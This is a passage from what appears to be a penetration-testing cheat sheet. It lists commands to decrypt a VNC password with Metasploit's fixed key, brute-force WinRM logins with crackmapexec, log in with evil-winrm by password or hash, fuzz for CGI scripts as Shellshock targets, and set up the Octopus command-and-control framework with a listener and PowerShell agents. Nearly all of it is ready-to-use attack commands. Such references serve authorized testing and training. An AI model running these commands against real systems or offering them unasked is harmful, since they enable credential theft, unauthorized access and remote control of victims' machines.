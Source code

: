 ### Decrypt VNC password

```
msfconsole
irb
fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
require 'rex/proto/rfb'
Rex::Proto::RFB::Cipher.decrypt ["2151D3722874AD0C"].pack('H*'), fixedkey
/dev/nul
```

---

## WINRM - 5985 - 5986

### Brute force

```
crackmapexec winrm <IP> -u <USERS_LIST> -p <PASSWORDS_LIST>
```

### Connecting

```
evil-winrm -i <IP> -u <USER> -p <PASSWORD>
evil-winrm -i <IP> -u <USER> -H <HASH>
```

---

## CGI

### Found CGI scripts

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/CGI-XPlatform.fuzz.txt -u <URL>/ccgi-bin/FUZZ -t 50
ffuf -w /usr/share/seclists/Discovery/Web-Content/CGIs.txt -u <URL>/ccgi-bin/FUZZ -t 50
ffuf -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -u <URL>/cgi-bin/FUZZ -e .sh,.pl,.cgi -t 100
```

If a script is found try [SHELLSHOCK](#shellshock).

---

## Command and control framework

```
# Download
git clone https://github.com/mhaskar/Octopus/tree/v1.2

# Install requirements
pip install -r requirements.txt

# Usage
./octopus.py

# Listener (exemple)
listen_http <BIND_IP> <BIND_PORT> <HOSTNAME> <INTERVAL_IN_SECONDS> <URL> <LISTENER_NAME>
listen_http 0.0.0.0 80 192.168.1.87 5 test.php listener_1

# Agent (exemple)
generate_powershell <LISTENER_NAME>
generate_powershell listener_1
```